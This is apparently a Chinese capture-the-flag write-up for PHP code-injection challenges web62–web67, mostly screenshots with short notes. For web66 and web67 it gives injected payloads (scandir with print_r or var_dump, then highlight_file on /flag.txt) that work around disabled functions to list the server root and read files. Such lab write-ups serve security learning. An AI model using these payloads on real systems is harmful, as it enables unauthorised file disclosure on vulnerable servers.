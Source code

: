 # web62

同上

# web63

同上

# web64

同上

# web65

同上

# web66

![image-20220318203443507](https://img-blog.csdnimg.cn/img_convert/76c815f08701622f596759331e47ecd6.png)

![image-20220318203454310](https://img-blog.csdnimg.cn/img_convert/054185bcccae5f0defef01157dec1069.png)

用show_source()，回显该函数被禁用，查看根目录下的文件

> c=print_r(scandir("/"));

![image-20220318203633187](https://img-blog.csdnimg.cn/img_convert/5b0d5dd6dfe31edc22b64a79ef58a82c.png)

查看根目录下的文件

> c=highlight_file("/flag.txt");

![image-20220318203848272](https://img-blog.csdnimg.cn/img_convert/5e94c9dfaf9a07b3191f0e4eb0e49c9c.png)

# web67

![image-20220318203950563](https://img-blog.csdnimg.cn/img_convert/e2b7f26f5921e05120d5a4197901f7c3.png)

print_r()被禁用
查看根目录下有哪些文件：
用这个代替

> c=var_dump(scandir("/"));
> c=highlight_file('/flag.txt');

![image-20220318204102115](https://img-blog.csdnimg.cn/img_convert/be4fd951a134dc00c982738fbde2091a.png)

![image-20220318204113038](https://img-blog.csdnimg.cn/img_convert/4a4acb5886244e40474a83879c2cd8f1.png)
